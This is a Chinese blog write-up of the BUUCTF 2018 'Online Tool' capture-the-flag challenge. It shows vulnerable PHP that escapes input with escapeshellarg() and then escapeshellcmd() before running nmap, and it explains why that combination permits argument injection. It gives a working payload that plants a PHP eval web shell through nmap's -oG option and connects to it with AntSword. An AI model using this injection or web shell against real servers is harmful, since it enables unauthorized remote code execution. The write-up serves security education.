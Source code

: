 <!--yml
category: 未分类
date: 2022-04-26 14:53:55
-->

# [BUUCTF 2018]Online Tool_Sk1y的博客-CSDN博客

> 来源：[https://blog.csdn.net/RABCDXB/article/details/115360423](https://blog.csdn.net/RABCDXB/article/details/115360423)

**目录**

[[BUUCTF 2018]Online Tool](#%5BBUUCTF%202018%5DOnline%20Tool)

[解题过程](#%E8%A7%A3%E9%A2%98%E8%BF%87%E7%A8%8B)

[参考文章：](#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0%EF%BC%9A)

* * *

考点：本题考查的一个点是escapeshellarg()和escapeshellcmd()函数，他们一起用的时候导致的一个漏洞，我把这个理解成一个类似于**sql注入闭合单引号**的一个漏洞。

## 解题过程

打开题目，进行代码审计

```
 <?php
 ​
 if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
     $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
 }
 ​
 if(!isset($_GET['host'])) {
     highlight_file(__FILE__);
 } else {
     $host = $_GET['host'];
     $host = escapeshellarg($host);
     $host = escapeshellcmd($host);
     $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
     echo 'you are in sandbox '.$sandbox;
     @mkdir($sandbox);
     chdir($sandbox);
     echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
 }
```

首先是REMOTE_ADDR和HTTP_X_FORWARDED_FOR，是服务器为了获取ip，在这里不作考虑

重点在下面，我们传入的GET方式传入的host参数，经过`escapeshellarg()和escapeshellcmd()函数，会进行system()进行执行，这就是我们最终想要达成的目标。

**将我们所想要传入的指令cmd传入，绕过过滤，最后执行。**

首先需要了解escapeshellarg()函数和escapeshellcmd()函数，这里推荐一篇博文，讲的很好：[传送门](https://paper.seebug.org/164/)

> 两个函数配合使用就会导致多个参数的注入。
> 
> 我们详细分析一下：
> 
> 1.  传入的参数是：`172.17.0.2' -v -d a=1`
>     
>     
> 2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
>     
>     
> 3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：[http://php.net/manual/zh/function.escapeshellcmd.php](http://php.net/manual/zh/function.escapeshellcmd.php)
>     
>     
> 4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。
>     
>     
> 
> 仔细想想其实这可以算是`escapeshellarg`和`escapeshellcmd`的设计问题，因为先转义参数再转义命令是很正常的想法，但是它们在配合时并没有考虑到单引号带来的隐患。
> 
> 在 PHPMailer 的这次补丁中，作者使用`escapeshellarg`意在防止参数注入，但是却意外的为新漏洞打了助攻，想想也是很有趣的 。

namp命令中有一个参数-oG 可以将命令和结果写到文件中，payload：

```
?host='<?php @eval($_POST["a"]);?> -oG 1.php '
```

返回的木马存放的文件夹名称，我们可以蚁剑连接，密码为a

![](img/c204d45cfcd6cd01c09e8ae7c2d4df1e.png)

 蚁剑连接：

![](img/b0590f401245b1c9c6ead2a17edd0f40.png)

flag在根目录下

* * *

我的理解还不是很透彻，所以文章讲得不是很清楚，还是推荐几篇大佬的文章，他们讲得很好。

## 参考文章：

1.[PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

2.[沐目_01师傅的博客](https://blog.csdn.net/weixin_44077544/article/details/102835099)

3.[大佬博文](https://blog.csdn.net/qq_26406447/article/details/100711933)